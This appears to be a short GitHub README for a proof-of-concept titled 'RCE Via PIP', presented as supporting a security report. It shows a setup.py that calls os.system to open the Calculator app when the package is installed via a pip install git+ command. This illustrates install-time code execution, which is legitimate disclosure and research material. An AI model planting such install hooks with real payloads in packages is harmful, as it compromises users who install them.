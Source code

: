 ## RCE Via PIP

```a package-management system written in Python and is used to install and manage software packages```

This code in setup.py

```
import os
os.system("calc.exe")
```
Is used to open Calculator app , When users intall the pacakge with 

```
pip install git+https://github.com/slvignesh05/RCE-PIP.git
```

NOTE :This repo contains the Proof of Concept for a security report



